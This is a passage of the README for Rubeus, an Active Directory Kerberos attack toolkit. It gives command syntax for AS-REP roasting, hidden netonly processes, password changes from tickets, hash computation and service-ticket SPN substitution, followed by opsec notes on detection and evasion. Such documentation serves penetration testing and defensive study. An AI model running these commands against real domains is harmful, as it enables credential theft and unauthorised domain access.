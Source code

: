         Perform AS-REP "roasting" for any users without preauth using alternate credentials:
            Rubeus.exe asreproast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU,..."] [/nowrap]


     Miscellaneous:

        Create a hidden program (unless /show is passed) with random /netonly credentials, displaying the PID and LUID:
            Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" [/show]

        Reset a user's password from a supplied TGT (AoratoPw):
            Rubeus.exe changepw </ticket:BASE64 | /ticket:FILE.KIRBI> /new:PASSWORD [/dc:DOMAIN_CONTROLLER]

        Calculate rc4_hmac, aes128_cts_hmac_sha1, aes256_cts_hmac_sha1, and des_cbc_md5 hashes:
            Rubeus.exe hash /password:X [/user:USER] [/domain:DOMAIN]

        Substitute an sname or SPN into an existing service ticket:
            Rubeus.exe tgssub </ticket:BASE64 | /ticket:FILE.KIRBI> /altservice:ldap [/ptt] [/luid] [/nowrap]
            Rubeus.exe tgssub </ticket:BASE64 | /ticket:FILE.KIRBI> /altservice:cifs/computer.domain.com [/ptt] [/luid] [/nowrap]
        
        Display the current user's LUID:
            Rubeus.exe currentluid

        The "/consoleoutfile:C:\FILE.txt" argument redirects all console output to the file specified.

        The "/nowrap" flag prevents any base64 ticket blobs from being column wrapped for any function.


     NOTE: Base64 ticket blobs can be decoded with :

        [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("aa...")


### Opsec Notes

This section covers some notes on the operational security of using Rubeus in an environment, with some technical examples comparing/contrasting some of its approaches to Mimikatz. The material here will be expanded in the future.

#### Overview

Any action you perform on a system is a detectable risk, especially when abusing functionality in "weird"/unintended ways. Rubeus (like any attacker toolset) can be detected in a number of methods, either from the host, network, or domain perspectives. I have a workmate who is fond of stating _"everything is stealthy until someone is looking for it"_ - tools and techniques generally evade detection because either a) people are not sufficiently aware of the tool/technique and therefore not even looking, b) people can not collect and process the data needed at the appropriate scale, or c) the tool/technique blends with existing behavior to sufficiently sneak in with false positives in an environment. There is much more information on these steps and detection subversion in general in [Matt Graeber](https://twitter.com/mattifestation) and [Lee Christensen](https://twitter.com/tifkin_)’s Black Hat USA 2018 [“Subverting Sysmon”](https://i.blackhat.com/us-18/Wed-August-8/us-18-Graeber-Subverting-Sysmon-Application-Of-A-Formalized-Security-Product-Evasion-Methodology.pdf) talk and associated [whitepaper](https://specterops.io/assets/resources/Subverting_Sysmon.pdf).

From the host perspective, Rubeus can be caught during initial [weaponization](#weaponization) of the code itself, by an abnormal (non-lsass.exe) process issuing raw Kerberos port 88 traffic, through the use of sensitive APIs like LsaCallAuthenticationPackage(), or by abnormal tickets being present on the host (e.g. rc4\_hmac use in tickets in a modern environment).
